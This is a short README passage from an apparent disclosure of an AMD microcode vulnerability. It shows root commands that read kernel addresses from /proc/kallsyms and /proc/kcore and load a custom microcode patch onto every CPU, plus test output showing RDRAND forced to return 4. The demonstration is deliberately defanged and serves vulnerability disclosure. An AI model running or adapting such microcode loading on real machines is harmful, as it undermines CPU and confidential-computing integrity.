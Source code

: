 ## How to use

Tested on `AMD EPYC 7B13 64-Core Processor` (Milan) and `AMD Ryzen 9 7940HS w/ Radeon 780M Graphics` (Phoenix).

As root:
```
# Load the microcode patch on every CPU
PAGE_OFFSET_BASE=$(
    objdump -s --start-address=0x$(cat /proc/kallsyms |
    awk '/D page_offset_base/{print $1}') /proc/kcore |
    awk '/ffff/{print $2 $3; exit}' |
    sed 's/\(..\)\(..\)\(..\)\(..\)\(..\)\(..\)\(..\)\(..\)/\8\7\6\5\4\3\2\1/')
for i in `seq 0 $(nproc)`; do ./ucode_loader ./milan_rdrand_carryclear_encrypted.bin 0x${PAGE_OFFSET_BASE:?} $i; done

# Test rdrand
./rdrand_test
rdrand_test: rdrand failed and returned 4
```

We've provided these PoCs to demonstrate that this vulnerability allows an adversary to produce arbitrary microcode patches. They cause the RDRAND instruction to always return the constant 4, but also set the carry flag (CF) to 0 to indicate that the returned value is invalid. Because correct use of the RDRAND instruction requires checking that CF is 1, this PoC can not be used to compromise correctly functioning confidential computing workloads. Additional tools and resources will be made public on March 5.
